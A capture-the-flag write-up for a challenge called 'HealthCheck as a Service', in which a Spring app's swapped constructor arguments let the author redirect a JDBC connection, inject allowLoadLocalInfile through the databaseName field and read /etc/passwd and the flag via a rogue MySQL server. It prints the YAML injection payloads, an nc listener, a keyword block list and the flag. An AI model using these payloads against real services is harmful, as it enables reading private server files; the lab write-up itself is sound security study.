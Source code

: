 # HealthCheck as a Service

> [!NOTE]  
> \[🟢]&ensp;**EASY**:&emsp;`14` solves

<br />

You better check yo' self before you wreck yo' self

<br />

The task is given `HealthCheck.jar` file. This is a Spring application that checks the database connection from the YAML configuration file.

The JAR is not obfuscated and we can get the source code of the application for analysis.

## Key points:

1. ApiController - Handles HTTP requests and processes YAML user-input
```java
@RestController
public class ApiController {
   @PostMapping
   public String checkDatabaseHealth(@RequestBody String str) {
      Validator.validate(str);
      Map<String, Object> yamlConfig = (Map)this.yaml.load(str);
      DbConfig dbConfig = DbConfig.of(yamlConfig.get("hostname").toString(), 
                                    yamlConfig.get("port").toString(),
                                    yamlConfig.get("databaseType").toString(), 
                                    yamlConfig.get("databaseName").toString());
	 DbConfigModel dbConfigModel = new DbConfigModel(dbConfig.getDatabaseType(), dbConfig.getHostname(), dbConfig.getPort(), dbConfig.getDatabaseName());

 .   return this.connectionTestService.isConnectionOk(dbConfigModel) ? "Up" : "Down";
   }
}
```

2. Validator - Implements  security filtering:
```java
public static void validate(String payload) {
	String[] blockList = new String[]{"Script", "Engine", "ClassLoader"};
	String[] var2 = blockList;
	int var3 = blockList.length;
  
	for(int var4 = 0; var4 < var3; ++var4) {
		String s = var2[var4];
		
		if (payload.contains(s)) {
			throw new RuntimeException("Dont try to hack me");
		}
	}
}
```

In the `classpath.idx` file you can check which database drivers are supported
```
...
- "BOOT-INF/lib/snakeyaml-1.33.jar"
- "BOOT-INF/lib/mysql-connector-j-8.4.0.jar"
- "BOOT-INF/lib/ojdbc8-23.6.0.24.10.jar"
- "BOOT-INF/lib/kafka-clients-3.7.0.jar"
- "BOOT-INF/lib/postgresql-42.1.0.jar"
- "BOOT-INF/lib/mssql-jdbc-12.9.0.jre8-preview.jar"
...
```

## Analysis

1. Check how service work
```python
yml = """hostname: 127.0.0.1
port: 1337
databaseType: mysql
databaseName: kek
"""
```

2. Start simple listener on port 1337 `nc -nvlp 1337` and send this payload and get response `Down` without any interaction with our server =(
3. It's strange, lets dive in source code.
```java
public static DbConfig of(String hostname, String port, String databaseType, String databaseName) {
return new DbConfig(hostname, port, databaseType, databaseName);
}
```

but class constructor has another order of arguments.

```java
 private DbConfig(String databaseType, String hostname, String port, String databaseName)
```

4.  Let's send another payload with changed fields
 ```python
yml = """hostname: mysql
port: 127.0.0.1
databaseType: 1337
databaseName: kek
"""
```

5. Profit, we got a new connection on our `nc` server

## Exploit
1. We can setup a rogue mysql server to read local files from client. [mysql source code](https://github.com/mysql/mysql-connector-j/blob/release/8.x/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1784)
2. To read a local files we need to add a parameter `?allowLoadLocalInfile=true` to connection string. We can inject it with `databaseName`
```java
public void checkConnection() {

String jdbcUrl = "jdbc:" + this.databaseType + "://" + this.hostname + ":" + this.port + "/" + this.databaseName;
...
```
3. As a rouge server I used [Rogue Mysql server](https://github.com/rmb122/rogue_mysql_server) with config to read `/etc/passwd`
4. Send new payload
```python
yml = '''hostname: mysql
port: 127.0.0.1
databaseType: 1337
databaseName: kek?allowLoadLocalInfile=true'''
```
5. And on a rogue server we get a content of the `/etc/passwd`
6. Get the flag from `/home/app/flag.txt`. `rctf{t00_much_m4rsh411ing`

## Conclusion
Most likely, the author's intended solution was to bypass the `Validator` logic and exploiting CVE-2022-1471, but we used another approach with rogue mysql server.
